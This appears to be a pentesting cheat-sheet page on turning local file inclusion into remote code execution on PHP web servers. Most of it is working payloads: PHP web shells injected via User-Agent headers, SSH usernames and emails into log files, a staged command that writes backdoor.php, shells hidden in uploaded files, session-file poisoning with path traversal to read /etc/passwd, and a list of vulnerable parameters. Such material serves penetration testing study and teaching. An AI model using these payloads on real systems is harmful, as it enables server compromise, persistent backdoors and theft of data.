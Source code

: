 # Remote Code Execution

![](https://media2.giphy.com/media/3orieNQgdcxedKjA3e/giphy.gif?cid=ecf05e47vcaxf58vv1mfubdyh4asgd6u8a0t54rnppx2k4o4\&rid=giphy.gif\&ct=g)

## Brief

{% hint style="info" %}
If an attacker **gains control** of a target computer through some sort of vulnerability, and they also gain the power to **execute commands on that remote computer** this process is called **Remote Code Execution (RCE)**

* It is one of the cyber-attacks where an attacker can remotely execute commands on someone’s computer
* It usually occurs due to malicious malware downloaded by the host and can happen regardless of the geographic location of the device.

**How is it possible ?**

_With RCE, hackers can edit or destroy important files, steal confidential data, perform DDoS (Distributed Denial of Service) attacks, and compromise the entire system._

**The attacks can be occurred due to:**

* _External user input unchecked_
* _Access control is poor_
* _Authentication measures are not properly done_
* _Buffer overflow._
{% endhint %}

## LFI 2 RCE

### LFI to RCE via Log files

{% hint style="info" %}
_a.k.a : log poisoning attack._

Used to gain remote command execution on the webserver.

The attacker needs to include a malicious payload into services log files such as - Apache, SSH, etc. Then, the LFI vulnerability is used to request the page that includes the malicious payload.

Exploiting this kind of attack depends on various factors, including the design of the web application and server configurations.

For example, a user can include a malicious payload into an apache log file via **User-Agent or other HTTP headers**. In SSH, the user can inject a malicious payload in the **username section**.
{% endhint %}

#### **How To**

**Apache Log Files**

```bash
# /var/log/apache2/access.log
# set inside the user agent or inside a GET parameter a php shell like :
<?php system($_GET['cmd']); ?>
# same for /proc/self/environ
```

**Via Emails**

```bash
# Send a mail to a internal account (user@localhost) containing : 
<?php echo system($_REQUEST["cmd"]); ?> 
# and access to the mail /var/mail/USER&cmd=whoami
```

**With SSH**

```bash
# ssh
ssh <?php system($_GET["cmd"]);?>@ip_address_server
# then look at /var/log/auth.log&cmd=whoami

# ftp
# you can do the same as ssh
# look at /var/log/messages
```

**Some PHP parameters used as user agent :**

```php
# php basic info
<?php phpinfo();?>
<?php system('id'); ?>

# php rce with cmd parameter
<?php system($_GET['cmd']); ?> //in user-agent burp or browser
<?php echo system($_GET['cmd']); ?> //in user-agent burp or browser
<?php system(\$_GET['cmd']); ?> //in user-agent curl 

    # to execute the RCE
     GET /example/exploit.php?command=id HTTP/1.1 

# php one-liner file reader
<?php echo file_get_contents('/path/to/target/file'); ?> 

//PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

### **Staged PHP RCE**

1. Confirm RCE (Using CMD + _whoami_/_id_ command)
2. Create a new **.php** file using `cmd=echo '<?php XXX ?> > backdoor.php'`

**How To :**

```bash
# creates a new php web file with RCE capabilities
cmd=echo '<?php system($_GET['cmd']); ?>' > backdoor.php

# Use & for two URL parameters ex:
http://0.0.0.0/index.php?file=app_access.log&cmd=whoami

http://10.10.49.156/index.php?err=./includes/logs/app_access.log&cmd=echo%20%27%3C?php%20system($_GET[%27cmd%27]);%20?%3E%27%20%3E%20backdoor.php
```

### LFI to RCE via PHP Sessions

**Enumerate** the PHP configuration file, and identify where the PHP sessions files are stored.

Then, we include a **PHP code** into the session and call the file via LFI.

Once located PHP session file storaging location, we can control the value of their session, it can be used to a chain exploit with an LFI to gain remote command execution.

It must stores the value of the username into the session even if you are not logged.

```bash
# Common locations that the PHP stores in sessions info :
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

## **File Upload Bypass 2 RCE**

```bash
# If you can upload a file, just inject the shell payload in it :
<?php system($_GET['c']); ?>
# check Web Vulnerabilities > File Upload Bypass for more techniques
# EXAMPLE : change MIME type to image/png
# access http://example.com/index.php?page=path/to/uploaded/file.php?c=id
# In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf
```

## **PHP sessions**

```bash
# Check if the website use PHP Session (PHPSESSID)
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
# In PHP these sessions are stored into /var/lib/php5/sess\[PHPSESSID]_ files
# /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
#user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
# Set the cookie to 
<?php system('cat /etc/passwd');?>

login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
# Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8
```

### TOP 25 vulnerable parameters

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload
```

### Check also

* Apache log poisoning
* SSH log poisoning

{% embed url="https://www.exploit-db.com/papers/12885" %}
